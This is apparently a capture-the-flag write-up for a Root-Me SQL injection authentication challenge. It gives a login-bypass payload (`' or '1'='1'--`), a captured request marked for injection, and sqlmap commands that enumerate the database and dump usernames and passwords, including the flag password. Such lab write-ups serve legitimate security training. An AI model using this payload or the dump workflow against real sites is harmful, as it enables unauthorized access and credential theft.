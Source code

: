 ```yaml
---
layout: default
title: SQL-injection-authentication
---
```


We can see there is an `SQL injection` here, because we get authenticated when supplying: `blabla' or '1'='1'--`
![sqli PoC](./images/SQL-injection-authentication_PoC.png)

We'll use `sqlmap` for this challenge, I'm taking the request I send in burp, and adding `*` at the injection point:
```
POST /web-serveur/ch9/ HTTP/1.1
Host: challenge01.root-me.org
Content-Length: 40
Cache-Control: max-age=0
Origin: http://challenge01.root-me.org
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge01.root-me.org/web-serveur/ch9/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,he;q=0.8
Cookie: _shopify_y=ffcfe8b9-4be8-4d95-bf50-165a84e65869; _tracking_consent=3.AMPS_ILJM_f_f_cmTqaElVQReO*YOuoTirbg; _orig_referrer=https%3A%2F%2Fwww.root-me.org%2F; _landing_page=%2F
Connection: keep-alive

login=*&password=pass
``` 

Next, I put it in `req.txt` and simply running `sqlmap -r req.txt`
![sqlmap using](./images/SQL-injection-authentication_sqlmap.png)

Okay, let's start and scrapping the sql db:

* Achieve db using this command:
```
sqlmap -r req.txt --dbs
```
* * Got the answer that this is using `SQLITE`, so there are no databases
---
* Achieve tables using this command:
```
sqlmap -r req.txt --tables
```
* * got table: `users`
---
* Achieve columns using this command:
```
sqlmap -r req.txt -T users --columns
```
* * got this columns: `password`, `username`, `Year`
---
* Achieve table data using this command:
```
sqlmap -r req.txt -T users -C username,password --dump
```
* * | username | password     |
    |--------- | ------------ |
    | user1    | TYsgv75zgtq  |
    | admin    | t0_W34k!$    |
    | user2    | R78gsyd34dzf |


Okay, so the password is: `t0_W34k!$`

**Flag:** ***`t0_W34k!$`***
